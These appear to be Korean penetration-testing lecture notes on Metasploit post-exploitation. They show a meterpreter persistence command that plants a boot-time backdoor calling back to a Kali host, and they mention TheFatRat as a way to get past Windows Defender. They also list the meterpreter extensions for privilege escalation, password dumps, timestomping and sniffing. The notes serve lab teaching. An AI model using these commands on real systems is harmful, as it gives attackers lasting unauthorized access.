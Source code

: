 이제 persistence 를 실행시키자 

앞에서 했던 것 처럼 -h 명령어를 통해 다양한 명령어를 확인할 수 있다.

-A handler 자동실행

-X  -p 6666 -r kali IP 시스템이 부팅되자마자 6666 포트 bind

```jsx
meterpreter > run persistence -h
meterpreter > run persistence -A -X -i 10 -p 6666 -r [Kali IP]
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7e270541-c943-466c-ae77-8c9724daced1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7e270541-c943-466c-ae77-8c9724daced1/Untitled.png)

결과를 확인해보자

persistence script 가 windows 8의 해당경로에 생성되었다고 나와있다.

windows 8 의 해당경로에서 실제로 script 가 생성되었는지 확인해보자

아마 발견할 수 없을 것이다. 

왜일까? 

windows 8 에서 windows defender를 열어보면 실행되고 있는 모습을 확인할 수 있다. windows defender가 스크립트 파일을 감지하고 삭제시켰기 때문이다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/86043fa7-102d-481d-890c-f5663878e698/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/86043fa7-102d-481d-890c-f5663878e698/Untitled.png)

방화벽을 피해 post 모듈과 TheFatRat(악성코드 생성 툴)을 사용하면 windows 8 에서도 백도어를 설치할 수 있다. 툴 설치과정이 매우 복잡하므로 이번 강의에서는 생략하도록 한다.

## 2. Meterpreter Extensions

미터프리터 세션에 다양한 post-exploit session 명령어들이 있다.

포스트 익스플로잇 단계에서 어떤 용도로 사용되는 지에 따라 명령어들이 다음과 같이 분류 된다.

1) Stdapi

- file System
- System
- User Interface

2) Priv

- Elevate
- Password Database
- Timestomp

3) Incongnito

4) Sniffer

5) Core

Stdapi, Priv, Core 는 따로 load 하지 않아도 meterpreter session이 열리면서 자동으로 load 되기 때문에  사용하기 전에 load 해 줄 필요가 없다. 
